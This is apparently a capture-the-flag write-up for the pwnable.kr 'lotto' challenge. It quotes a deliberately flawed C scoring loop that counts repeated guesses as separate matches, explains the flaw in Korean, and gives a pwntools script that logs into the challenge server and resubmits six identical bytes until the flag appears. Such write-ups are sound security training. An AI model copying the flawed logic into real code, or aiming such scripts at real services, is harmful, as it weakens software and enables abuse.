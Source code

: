 # [pwnable.kr] lotto

> Mommy! I made a lotto program for my homework.
> do you want to play?
>
> ssh lotto@pwnable.kr -p2222 (pw:guest)
>
> [Attachment](./attachment)

## Bug

```c
/* lotto.c */

	// calculate lotto score
	int match = 0, j = 0;
	for(i=0; i<6; i++){
		for(j=0; j<6; j++){
			if(lotto[i] == submit[j]){
				match++;
			}
		}
	}

	// win!
	if(match == 6){
		system("/bin/cat flag");
	}
	else{
		printf("bad luck...\n");
	}
```

점수를 계산할 때 6개의 숫자가 모두 일치하는지 검사하는 것이 아니라, 선택한 각각의 숫자가 정답에 존재하는지 검사한다. 따라서 6개 모두 같은 숫자를 선택하면, 그 숫자가 정답에 존재하기만 하면 6점이 되어 플래그를 획득할 수 있다.

## Exploit

```python
from pwn import *

p = ssh("lotto", "pwnable.kr", 2222, "guest").process("/home/lotto/lotto")

sla = p.sendlineafter
sa = p.sendafter

while True:
    payload = b"\x01" * 6  # choose 6 same numbers
    sla(b"3. Exit\n", b"1")
    sa(b"Submit your 6 lotto bytes : ", payload)

    p.recvuntil(b"Lotto Start!\n")
    result = p.recvline()
    if b"bad luck..." in result:
        continue
    else:
        print(result)
        break

p.interactive()
```

![image](https://github.com/user-attachments/assets/ceb6ae3a-c4a8-4175-8625-402b9dd5db9e)
